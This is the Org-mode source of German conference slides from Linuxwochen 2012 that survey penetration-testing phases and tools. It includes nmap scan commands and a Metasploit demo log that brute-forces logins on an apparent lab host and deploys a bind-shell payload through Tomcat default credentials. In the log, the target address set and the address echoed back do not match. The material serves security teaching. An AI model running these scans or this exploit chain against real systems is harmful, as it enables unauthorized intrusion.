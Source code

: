 #+STARTUP: beamer
#+LaTeX_CLASS: beamer
#+MACRO: BEAMERMODE presentation
#+MACRO: BEAMERTHEME Berlin
#+MACRO: BEAMERCOLORTHEME crane
#+MACRO: BEAMERINSTITUTE Linuxwochen 2012
#+TITLE: A Pentester's Best Friends
#+AUTHOR: Michael Kohl, Ludwig Hammel

* Einleitung
** Die Vortragenden
*** Penetration Tester und Software-Entwickler
*** base-camp IT Security & Solutions
*** http://www.base-camp.cc/
** Warum Penetration Testing?
*** Schwachstellen identifizieren
*** Aufdecken von Fehlern aus falscher Bedienung
*** Erhöhung der Sicherheit auf technischer und organisatorischer Ebene
*** externe Validierung der Sicherheit
** Ablauf eines Penetration Test
*** Pre-Engagement
**** Zieldefinition, Umfang, Rahmenbedingungen
*** Intelligence Gathering
**** Footprinting, Portscans, Google, Social Media
*** Threat Modeling
**** Angriffsvektor, interessante Ziele
*** Vulnerability Analysis
**** Port- u. Servicescans, Banner Grabbing, Traffic Monitoring
*** Exploitation
**** Buffer Overflows, SQL Injections, Bruteforce
*** Post Exploitation
**** Weitere Exploits, Aufräumen
* Tools
** owtf
*** Offensive Web Testing Framework
*** Information Gathering
*** Vulnerability Analysis
*** passsive, semi-passive, active
*** On-the-fly Report Updates
*** Demo :noexport:
****
** Nmap
*** Geschrieben in C und Lua
*** Ursprünglich Portscanner
*** Mittlerweile umfangreicher Security-Scanner
*** Intelligence Gathering & Vulnerability Analysis
*** Nmap Scripting Engine (NSE)
** Nmap Demo
*** Simpler Portscan
**** =nmap linuxwochen.at=
*** Komplizierterer Portscan (OS Detection, Port-Range, Service/Version Detection)
**** =nmap -O -sV -p 1-2048 linuxwochen.at=
*** Portscan mit Standardskripts (Wie oben plus Standardskripts und Traceroute)
****  =nmap -A linuxwochen.at=
*** Portscan mit Extra Skripts
**** =nmap --script=http-generator,banner -p21,80 linuxwochen.at=
** NSE kurz
*** Nmap Scripting Engine
*** Lua
*** > 350 Skripts
*** Kategorien: default, discovery, dos, exploit, malware, safe...
** NSE Beispiel
...
** sqlmap
*** Für MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, SQLite, Firebird, Sybase und SAP MaxDB
*** Verschiedene SQL Injection Techniken
*** Enumeration von Benutzern, Tabellen, Benutzerrollen und -berechtigungen...
*** Datenbanken/Tabellen dumpen
*** File Upload/Download bei MySQL, PostgreSQL und Microsoft SQL Server
*** Demo?
** Metasploit
*** Sehr umfangreiches Pen Testing Framework
*** Geschrieben und erweiterbar in Ruby (früher Perl)
*** Scanning, Vulnerability Analysis, Exploitation, Post Exploitation
*** Demo :noexport:
msf > db_connect ...

sudo nmap -sT -Pn 10.20.30.164 -oX metasploitable.xml

msf > db_import metasploitable.xml
[*] Importing 'Nmap XML' data
[*] Importing host 10.20.30.164
[*] Successfully imported /Users/michi/metasploitable.xml

msf > db_services

msf > setg RHOSTS 10.20.30.164
RHOSTS => 10.20.30.164

msf > use scanner/ftp/anonymous
msf auxiliary(anonymous) > show options
msf auxiliary(anonymous) > run

msf > search postgres

msf auxiliary(anonymous) > use scanner/postgres/postgres_login
msf auxiliary(postgres_login) > show options

msf auxiliary(postgres_login) > run
BAZINGA!

psql -h 192.168.178.30 -U postgres
\\du

msf > use scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set RPORT 8180
msf auxiliary(tomcat_mgr_login) > run
BAZINGA!

msf exploit(tomcat_mgr_deploy) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(tomcat_mgr_deploy) > set PASSWORD tomcat
PASSWORD => tomcat
msf exploit(tomcat_mgr_deploy) > set RHOST 10.20.30.164
RHOST => 192.168.178.30
msf exploit(tomcat_mgr_deploy) > set PAYLOAD linux/x86/shell_bind_tcp
msf exploit(tomcat_mgr_deploy) > exploit -j
msf exploit(tomcat_mgr_deploy) > sessions -l
msf exploit(tomcat_mgr_deploy) > sessions -i n
** Arachni
*** Web Application Security Scanner Framework
*** Geschrieben in Ruby
*** Spider mit asynchronem HTTP
*** Als Library verwendbar
*** Web Interface
*** Demo :noexport:
**** archachni http://linuxwochen,at
** BeEF
*** Browser Exploitation Framework
*** Geschrieben in Ruby und JavaScript
*** Fokussiert auf Browser Schwachstellen
*** Clientseitige Angriffe
** Dradis
*** Post Exploitation Reporting
*** Geschrieben in Ruby
** Diverse Tools
*** ab/Siege: Lasttests, Benchmarking, DoS
*** John the Ripper:
*** ophcrack:
*** Kombinierbar
* Distributionen
** Distributionen
*** BackTrack
*** Grml
*** OWASP Labrat
**** Open Web Application Security Project
*** ophcrack Live CD
* Links
** Links
*** http://base-camp.cc
*** http://dradisframework.org/
*** http://www.securitydistro.com/
*** Metasploit: http://www.metasploit.com/
*** Siege: http://www.joedog.org/
*** John the Ripper: http://www.openwall.com/john/
*** BeEF: http://beefproject.com/
